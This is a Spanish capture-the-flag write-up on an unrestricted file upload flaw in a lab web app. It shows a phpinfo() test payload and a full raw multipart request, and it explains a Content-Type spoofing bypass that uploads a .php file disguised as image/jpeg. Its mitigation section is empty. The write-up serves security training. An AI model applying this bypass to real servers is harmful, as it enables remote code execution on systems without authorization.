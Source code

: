 # Unrestricted File Upload



## Ataque

- **Localización: /?page=upload**

En la vista tenemos un formulario que nos permite subir imágenes, lo que nos puede proporcionar una superficie de ataque para inyectar código propio y ejecutarlo en el servidor.

Comprobamos primero el formulario en si.

```html
<input type="hidden" name="MAX_FILE_SIZE" value="100000">
```
Lo único interesante que encontramos es un input oculto que sirve para pasar a la petición del formulario el tamaño máximo del archivo. Si no existe validación de este parámetro en el servidor, podemos cargar archivos de gran capacidad, provocando una caída de servidor.

Probamos la validación de tipo de fichero.
Tratamos de subir un script en **php** que consta de una función llamado `malicious_file.php`.
```php
 <?php phpinfo(); ?>
```

Al intentar subir el archivo, vemos que de algún modo valida el fichero y no nos lo permite, pero si cambiamos el nombre del archivo a `malicious_file.jpg`, vemos que nos reporta que se ha subido correctamente y nos proporciona una url para acceder a él.

Hemos podido subir nuestro script, pero al ser un fichero **jpg**, el intérprete de php no nos lo va a ejecutar en el servidor.

Vamos a ver en detalle la petición que se realiza para subir el archivo.

```bash
POST /?page=upload HTTP/1.1
Host: 192.168.222.47
Content-Length: 421
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.222.47
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.222.47/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="uploaded"; filename="malicious_file.jpg"
Content-Type: image/jpeg

<?php phpinfo(); ?>

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF--
```

De todos estos parámetros, vemos que el único posible para validar el archivo es que indica el tipo de contenido del archivo, por lo que editamos la petición para que el archivo subido tenga la extensión **php**, pero el tipo de contenido sea **image/jpeg**. 

Posteamos y obtenemos la flag.

## Mitigación

## Referencias